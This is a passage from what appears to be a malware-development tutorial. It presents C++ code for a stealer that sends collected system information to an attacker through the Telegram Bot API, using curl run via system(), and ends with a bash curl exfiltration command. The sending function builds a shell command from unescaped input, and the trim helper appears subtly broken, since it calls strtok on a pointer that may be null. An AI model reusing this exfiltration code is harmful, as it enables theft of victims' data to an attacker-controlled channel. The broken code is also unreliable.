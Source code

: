 We need helper function for remove newlines and carriage returns:      

```cpp
// trim function
void trimF(char* str) {
  char* pos;
  
  // remove newlines
  if ((pos = strchr(str, '\n')) != NULL) {
    *pos = '\0';
  }
  
  // remove carriage returns
  if ((pos = strchr(str, '\r')) != NULL) {
    *pos = '\0';
  }

  char *token = strtok(pos, " \t\n\r");
  if (token) {
    strcpy(pos, token);
  }
}
```

and main logic: send data via Telegram Bot API:     

```cpp
// function to send message via Telegram Bot API
int sendToTgBot(const char* message, const char* botToken, const char* chatId) {
  char command[1024];
  
  // URL encode message for safe HTTP request
  char encodedMessage[BUFFER_SIZE];
  snprintf(encodedMessage, sizeof(encodedMessage), "\"%s\"", message);  // just for simplicity here
  
  // build the curl command to send the message to Telegram
  snprintf(command, sizeof(command),
    "curl -s -X POST https://api.telegram.org/bot%s/sendMessage -d chat_id=%s -d text=%s",
    botToken, chatId, encodedMessage);

  // execute the command
  int result = system(command);
  return result;
}
```

As you can see, once the system information is collected, it needs to be sent to the attacker. This is where the Telegram Bot API comes into play. Using `curl`, the attacker can send a `POST` request to the Telegram server:      

```bash
curl -s -X POST "https://api.telegram.org/bot<YOUR_BOT_TOKEN>/sendMessage" --data-urlencode "chat_id=<YOUR_CHAT_ID>" --data-urlencode "text=<SYSTEM_INFO>"
```
